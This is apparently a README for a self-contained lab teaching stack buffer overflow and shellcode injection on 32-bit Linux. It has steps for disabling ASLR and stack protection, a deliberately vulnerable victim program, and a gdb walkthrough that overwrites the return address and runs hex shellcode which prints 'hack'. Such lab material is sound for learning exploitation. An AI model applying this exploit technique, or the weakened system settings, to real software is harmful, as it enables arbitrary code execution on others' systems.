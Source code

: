 #PREPARE!
To start practicing injecting shell code in this repo you have:
- `shellcode.asm` - simple asm code that print one word. it doesn't create any `\x00` bytes so you'll not have any problems with `strcpy()`.
- `victim.c` - vulnerable program.
- `shellcode.c` - executor for our `shellcode.asm` 

First prepare your OS:

Using any text editor write to `/etc/sysctl.conf` next lines:
```
kernel.randomize_va_space = 0
kernel.exec-shield = 0
```

And run `$ sudo sysctl -p`

After that run `ulimit -c unlimited`

#FIGHT
Run `make` to compile all the files and you will get something like 
```
rm -f shellcode victim *.o *~
gcc -g -z execstack -Wall -fno-stack-protector -o victim victim.c
nasm -f elf shellcode.asm
ld -o shellcode shellcode.o
sh getshell.sh
\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b
```

The last lines after sh.getshell is your shellcode to execute wherever you want.

To completely finish your action you can do next steps:

1. run `gdb victim`.

2. exec victim with params (count of "A" "B" "C" letters you must find experimentally to have `$EIP` be filled with only letter "B" - 42 code): 
  ```
  (gdb) r `python -c 'print "A"*10 + "B"*4 + "C"*30'`
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "B"*4 + "C"*30'`
  So... The End...
  AAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
  
  Program received signal SIGSEGV, Segmentation fault.
  0x42424242 in ?? ()
```
3. Replace `"C"*30` with your shellcode you got after make
  ```
  (gdb) r `python -c 'print "A"*12 + "B"*4 + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "B"*4 + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  So... The End...
  AAAAAAAAAAAABBBB�1�1�1�1ɰ�Y�1�1������hack
  
  Program received signal SIGSEGV, Segmentation fault.
  0x42424242 in ?? ()
  ``` 
4. After that you need to replace `"B"*4` with return address. You can look for it in stack or just try to use address from `$ESP` (cause we've put our code right after current program).
  
  ```
  (gdb) x/256xb $esp
  0xbffffca0: 0xeb    0x19    0x31    0xc0    0x31    0xdb    0x31    0xd2
  0xbffffca8: 0x31    0xc9    0xb0    0x04    0xb3    0x01    0x59    0xb2
  0xbffffcb0: 0x18    0xcd    0x80    0x31    0xc0    0xb0    0x01    0x31
  0xbffffcb8: 0xdb    0xcd    0x80    0xe8    0xe2    0xff    0xff    0xff
  ```
5. So **0xbffffca0** is our new return address. Just replace `"B"*4` with this address reversed. Here we go!
  
  ```
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "\xa0\xfc\xff\xbf" + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  So... The End...
  AAAAAAAAAAAA�����1�1�1�1ɰ�Y�1�1������hack
  hack
  Program exited normally.
  (gdb)
  ```

After all you can find and try to inject any other shellcode from (Shell Storm)[http://shell-storm.org/shellcode/]
#Requirements
- gcc
- make
- objdump
- nasm
- python or perl

#Thanks
[LifeDJIK](https://github.com/LifeDJIK) for helping to understand some parts.